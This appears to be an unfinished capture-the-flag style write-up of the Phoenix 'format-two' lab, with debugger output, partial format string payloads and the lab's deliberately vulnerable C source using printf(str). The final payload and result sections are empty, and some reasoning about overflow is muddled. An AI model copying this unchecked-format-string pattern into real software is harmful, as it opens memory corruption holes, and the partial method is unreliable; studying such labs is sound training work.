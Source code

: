 # Phoenix format-two
https://exploit.education/phoenix/format-two/
### Result

### Setup

### Compile code
This is a `format string` challenge using `printf`.

Like the previous challenges with `sprintf`, the compiler warns `format not a string literal and no format arguments [-Wformat-security]`.  It it referencing this code:
```
void bounce(char *str) {
  printf(str);
}
```

### Reversing
This challenge uses more C APIs than previous `format string` challenges.

```
radare2 -A format_two

[0x00400520]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004004d0 GLOBAL FUNC       strncpy
2   0x004004e0 GLOBAL FUNC       puts
3   0x004004f0 GLOBAL FUNC       printf
4   0x00400500 GLOBAL FUNC       memset
7   0x00400510 GLOBAL FUNC       exit
```

##### Find size of buffer
If you `disassemble main` you can set `memset` is called first.

> void *memset(void *b, int c, size_t len);

If you break on that call, you can get two useful things; the address of `buffer` and the `length` of the buffer.
```
memset@plt (
   $rdi = 0x00007fffffffe450 → 0x0000000000000000,
   $rsi = 0x0000000000000000,
   $rdx = 0x0000000000000100,
   $rcx = 0x00007ffff7af4154 → 0x5477fffff0003d48 ("H="?)
)
```
The third value, the buffer length is represented in hex.  You can see the `buffer` is `256` chars long.
```
gef➤  p/d 0x100
$4 = 256
```
##### Limiting len of user input
Well, not really. But we can check another way.  The second API called is `strncpy`.  This is less famous than `strcpy` which doesn't have that `len` argument to mitigate buffer overflows:

> char * strncpy(char * dst, const char * src, size_t len);

Sidenote - the `memset` call is redundant.  As `strncpy` sets the unused memory to all zeros:

> .... strncpy() functions copy at most len characters from
> src into dst.  If src is less than len characters long, the remainder of
> dst is filled with `\0` characters.

So if we break on `strncpy`.  It was passed:
```
strncpy@plt (
   $rdi = 0x00007fffffffe450 → 0x0000000000000000,
   $rsi = 0x00007fffffffe862 → 0x53454c0041414141 ("AAAA"?),
   $rdx = 0x0000000000000100  <-- 256 char buffer
)
```
That re-confirms the address of the buffer and it's length of `256` characters.

### Payloads
##### inspecting printf()
We can inject `format arguments` to try and take the `buffer` beyond `256` characters, using our user input ( which routes the input via `strncpy` ).

```
gef➤  disas bounce
0x000000000040061f <+24>:	call   0x4004f0 <printf@plt>

gef➤  b *bounce+24

printf@plt (
   $rdi = 0x00007fffffffe450 → 0x0000000041414141 ("AAAA"?),
   $rsi = 0x00007fffffffe862 → 0x53454c0041414141 ("AAAA"?),
   $rdx = 0x0000000000000000
)
```
##### Get stack size
`set $stack_size = $rbp - $rsp`         # 272
##### Calculate max overflow
`p/d $stack_size -256`                  # 16
##### Create first payload
```
python -c 'print "%256x" + "\x41\x41\x41\x41"' > payload.txt
gef➤  r < payload.txt
Better luck next time!
```
##### Create second payload
```
python -c 'print "%268x" + "\x41\x41\x41\x41"' > payload.txt
```
### Result
##### Create final payload


### Source code
```
 /*
 * Can you change the "changeme" variable?
 */

 #include <err.h>
 #include <stdio.h>
 #include <stdlib.h>
 #include <string.h>
 #include <unistd.h>

 #define BANNER \
   "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

 int changeme;

 void bounce(char *str) {
   printf(str);
 }

 int main(int argc, char **argv) {
   char buf[256];

   printf("%s\n", BANNER);

   if (argc > 1) {
     memset(buf, 0, sizeof(buf));
     strncpy(buf, argv[1], sizeof(buf));
     bounce(buf);
   }

   if (changeme != 0) {
     puts("Well done, the 'changeme' variable has been changed correctly!");
   } else {
     puts("Better luck next time!\n");
   }

   exit(0);
 }
```
